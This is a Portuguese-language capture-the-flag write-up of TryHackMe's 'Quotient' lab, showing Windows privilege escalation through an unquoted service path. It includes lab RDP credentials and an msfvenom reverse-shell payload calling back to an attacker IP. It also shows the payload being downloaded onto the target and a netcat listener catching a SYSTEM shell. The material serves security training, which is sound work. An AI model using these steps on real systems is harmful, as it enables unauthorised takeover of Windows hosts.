

<div class="page"/>

# **Pós-Exploração - Quotient | Sonael de A. Angelos Neto**

- ### **Vulnerabilidade Unquoted Service Paths**

 A vulnerabilidade de caminhos de serviço não citados (ou "unquoted service paths", em inglês) é uma falha de segurança comum em sistemas operacionais Windows. Ela ocorre quando o caminho para um serviço do Windows contém espaços em branco e não é citado corretamente. Isso pode permitir que um invasor execute códigos maliciosos com privilégios elevados no sistema, explorando a forma como o Windows gerencia esses caminhos de serviço.

 Ao usar um caminho de serviço que contém espaços em branco e sem aspas, o Windows pode interpretar incorretamente o caminho e tentar executar um arquivo diferente do que o esperado. Por exemplo, se o caminho de um serviço for "C:\Program Files\MeuServico.exe", o Windows tentará executar "C:\Program.exe" em vez de "C:\Program Files\MeuServico.exe", o que pode permitir que um invasor execute código malicioso em vez do serviço legítimo.

 Essa vulnerabilidade pode ser explorada por meio de técnicas de engenharia social ou de exploração remota, mas geralmente requer que o invasor já tenha acesso ao sistema. Para proteger o sistema contra essa vulnerabilidade, é recomendado que os caminhos de serviço sejam citados corretamente e que os usuários evitem dar privilégios administrativos desnecessários a programas e usuários. Além disso, é importante manter o sistema operacional e os programas atualizados com as últimas correções de segurança. 

---

## **<center>Sumário</center>**

  **Nesse documento iremos resolve a maquina do TryHackMe chamada "Quotient".**

  1. #### ***<a href="#1">Acesso a Máquina.</a>***
  2. #### ***<a href="#2">Enumeração.</a>***
  3. #### ***<a href="#3">Exploração.</a>***
  4.  #### ***<a href="#4">Capturar a Flag.</a>***


### **Complementos:**

   5. #### ***<a href="#5">Dificuldades.</a>***
   6. #### ***<a href="#6">Conclusão.</a>***
   7. #### ***<a href="#7">Referências.</a>***
   8. #### ***<a href="#8">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [xfreerdp](https://www.freerdp.com/) :
    - Utilizaremos o `xfreerdp` para acessar a máquina.

- #### [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) :
    - Utilizaremos o `MSFVenom` para gerar o payload.

- #### [Python](https://www.python.org/) :
    - Utilizaremos o `Python` para criar o servidor HTTP.

- #### [Netcat](https://nmap.org/ncat/) :
    - Utilizaremos o `Netcat` para ficar escutando a chamada do payload.

---

## **<a id="1"> • Acesso a Máquina</a>**

Para acessar a máquina, basta utilizar o comando `xfreerdp /u:sage /p:'gr33ntHEphgK2&V' /v:10.10.108.103` no terminal:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           00:04:48 ╰──➤ xfreerdp /u:sage /p:'gr33ntHEphgK2&V' /v:10.10.1.242
[00:05:00:996] [9273:9274] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[00:05:00:996] [9273:9274] [WARN][com.freerdp.crypto] - CN = thm-quotient
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.1.242:3389)
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - Common Name (CN):
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] -        thm-quotient
[00:05:00:998] [9273:9274] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.10.1.242:3389 (RDP-Server):
        Common Name: thm-quotient
        Subject:     CN = thm-quotient
        Issuer:      CN = thm-quotient
        Thumbprint:  df:da:85:0c:43:13:61:c1:66:e1:22:de:e0:e2:67:0d:be:d3:29:1c:3a:07:4c:98:46:16:0a:b7:68:82:f7:f9
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
[00:05:15:033] [9273:9274] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[00:05:15:033] [9273:9274] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[00:05:15:076] [9273:9274] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[00:05:15:076] [9273:9274] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[00:05:24:028] [9273:9274] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]

```
---

## **<a id="2"> • Enumeração</a>**

Primeiramente vamos dar uma olhada nas configurações do sistema, para isso utilizaremos o comando `systeminfo`:

```powershell
PS C:\Users\Sage\Desktop> systeminfo

Host Name:                 THM-QUOTIENT
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-70000-00000-AA092
Original Install Date:     3/7/2022, 2:33:36 AM
System Boot Time:          2/22/2023, 3:02:22 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,096 MB
Available Physical Memory: 2,397 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 3,905 MB
Virtual Memory: In Use:    1,599 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\THM-QUOTIENT
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB5013892
                           [02]: KB4535680
                           [03]: KB4577586
                           [04]: KB4589208
                           [05]: KB5015811
                           [06]: KB5014797
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.1.242
                                 [02]: fe80::d439:a1a8:47:b74f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Aqui podemos ver que o sistema operacional é o Windows Server 2019 Standard, e que sua arquitetura é x64. Além disso, podemos ver que o sistema está rodando em uma máquina virtual, e que o nome do host é `THM-QUOTIENT` e também seus hotfixes.

Vamos dar uma olhada em quais grupos o usuário `Sage` pertence:

```cmd
PS C:\Users\Sage\Desktop> net user sage
User name                    Sage
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/19/2022 10:35:44 AM
Password expires             Never
Password changeable          7/19/2022 10:35:44 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/22/2023 3:05:14 AM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
The command completed successfully.
```

Temos então que o usuário `Sage` pertence aos grupos locais `Remote Desktop Users` e `Users`.

Também podemos checar os privilégios do usuário `Sage`:

```powershell
PS C:\Users\Sage\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

Aqui podemos ver que o usuário `Sage` possui o privilégio `SeChangeNotifyPrivilege` habilitado, o que nos permite monitorar as alterações de arquivos e diretórios, porém `sage` não possui privilégios administrativos.

A dica do laboratório diz: "Grammar is important. Don't believe me? Just see what happens when you forget punctuation.".
 > "A gramática é importante. Não acredita em mim? Basta ver o que acontece quando você esquece a pontuação."

Isso sugere que a forma de escalar privilégio seja Unquoted Service Paths, onde o serviço é executado com as permissões do usuário que o criou.

A identificação de serviços com caminhos de serviço sem aspas pode ser feita usando WMIC (Windows Management Instrumentation command-line):

```cmd
C:\Users\Sage\Desktop\New folder>wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

Onde temos: 
    
- `name`: nome do serviço
- `pathname`: caminho do serviço
- `displayname`: nome de exibição do serviço
- `startmode`: modo de inicialização do serviço
- `findstr /i auto`: procura por serviços que iniciam automaticamente
-  `findstr /i /v "C:\Windows\\"`: procura por serviços que não estão localizados na pasta `C:\Windows`

O comando nos retorna o serviço `Development Service`, que possui um caminho de serviço sem aspas.

Com o caminho para o executável do serviço não colocado entre aspas, o Windows não consegue determinar qual parte é o executável e se os sufixos são parâmetros.

Agora podemos ver as permissões do serviço:

```cmd
C:\Users\Sage\Desktop\New folder>sc qc "Development Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

O serviço é executado com as permissões do usuário `LocalSystem`, que possui privilégios administrativos.

Como o` START_TYPE` está definido como AUTO_START, isso significa que, na inicialização, o sistema verificará a presença de um executável na seguinte ordem:

- `C:\Program.exe`
- `C:\Program Files\Development.exe`
- `C:\Program Files\Development Files\Devservice.exe`
- `C:\Program Files\Development Files\Devservice Files\Service.exe`

Agora temos que descobrir se nosso usuário `Sage` possui permissões de escrita onde o serviço está localizado ou a qualquer diretório anterior, o que nos permitirá inserir um executável malicioso.

As permissões de pasta podem ser verificadas usando icacls (Integrity Control Access Control Lists) por meio da linha de comando.

Então vamos verificar as permissões do diretório `C:\Program Files\Development Files`

```cmd
C:\Users\Sage\Desktop\New folder>icacls "C:\Program Files\Development Files"
C:\Program Files\Development Files BUILTIN\Users:(W)
                                   NT SERVICE\TrustedInstaller:(I)(F)
                                   NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                   NT AUTHORITY\SYSTEM:(I)(F)
                                   NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                   BUILTIN\Administrators:(I)(F)
                                   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                   BUILTIN\Users:(I)(RX)
                                   BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                   CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Aqui podemos ver que o grupo `BUILTIN\Users` possui permissões de escrita, o que nos permite criar um executável malicioso.

---

## **<a id="3"> • Exploração</a>**

Agora que temos permissões de escrita, vamos criar um executável malicioso. Para isso, vamos usar o [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/), que é uma ferramenta de linha de comando que gera payloads para o Metasploit.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         00:50:18
╰──➤ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.20.23 LPORT=53 -f exe -o Devservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: Devservice.exe
```

Onde temos:

- `-p`: especifica o payload
- `windows/x64/shell_reverse_tcp`: payload reverso de shell do Windows x64
- `LHOST`: endereço IP do atacante
- `LPORT`: porta do atacante
- `-f`: especifica o formato do arquivo de saída
- `-o`: nome do arquivo de saída

Note que o nome do arquivo de saída é `Devservice.exe`, que é o mesmo nome do executável do serviço. Isso é importante, pois o Windows irá executar o arquivo malicioso em vez do executável original.

Agora precisamos enviar o executável malicioso para o diretório `c:\program files\development files\` e para isso iremos utilizar um servidor http python.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         00:51:27
╰──➤ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

e na maquina alvo vamos baixar o arquivo utilizando o `curl`

```cmd
PS C:\Users\Sage\Desktop> wget http://10.18.20.23:80/Devservice.exe -o "c:\program files\development files\Devservice.exe"
```

`icacls` pode ser usado para alterar as permissões de arquivo do executável para permitir acesso total a todos:

```powershell
PS C:\Users\Sage\Desktop> icacls "C:\Program Files\Development Files\Devservice.exe" /grant Everyone:F
processed file: C:\Program Files\Development Files\Devservice.exe
Successfully processed 1 files; Failed processing 0 files
```

Agora basta reiniciar a maquina alvo e o serviço malicioso será executado com as permissões do usuário `LocalSystem`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           00:59:11
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.1.242] 49670
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

---

<div class="page"/>

## **<a id="4"> • Capturar a Flag</a>**

agora basta capturar a flag que esta no desktop do administrador.

```cmd
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 4448-19F9

 Directory of C:\Users\Administrator\Desktop

07/19/2022  12:23 PM    <DIR>          .
07/19/2022  12:23 PM    <DIR>          ..
07/19/2022  10:34 AM                17 flag.txt
               1 File(s)             17 bytes
               2 Dir(s)  24,907,841,536 bytes free

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
THM{USPE_SUCCESS}
```

Então temos a flag `THM{USPE_SUCCESS}`, que é a flag do desafio.



---

## **<a id="5">• Dificuldades.</a>**

*A única dificuldade foi que as maquinas reiniciavam com frequência, levando mas tempo do que o esperado para concluir oa desafios.* 

---

## **<a id="6">• Conclusão.</a>**

Em conclusão, a vulnerabilidade **Unquoted Service Paths** é uma ameaça significativa para a segurança do sistema operacional Windows. Essa vulnerabilidade pode permitir que um invasor execute códigos maliciosos com privilégios elevados no sistema, explorando a forma como o Windows gerencia os caminhos de serviço.

Para minimizar o risco dessa vulnerabilidade, é importante que os usuários citem corretamente os caminhos de serviço e evitem dar privilégios administrativos desnecessários a programas e usuários. Além disso, manter o sistema operacional e os programas atualizados com as últimas correções de segurança pode ajudar a prevenir ataques que explorem essa vulnerabilidade.

Em resumo, a vulnerabilidade **Unquoted Service Paths** é uma ameaça real para a segurança dos sistemas operacionais Windows. No entanto, com medidas de segurança adequadas, é possível minimizar o risco e proteger o sistema contra ataques maliciosos.

---

<div class="page"/>

## **<a id="7">• Referências.</a>**

- [VK9 Security - Privilege Escalation – Unquoted Service Path (Windows)](https://msrc.microsoft.com/update-guide/en-us/vulnerability/CVE-2017-0143)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="8">• Laboratório.</a>**

  - [Quotient](https://tryhackme.com/room/quotient)


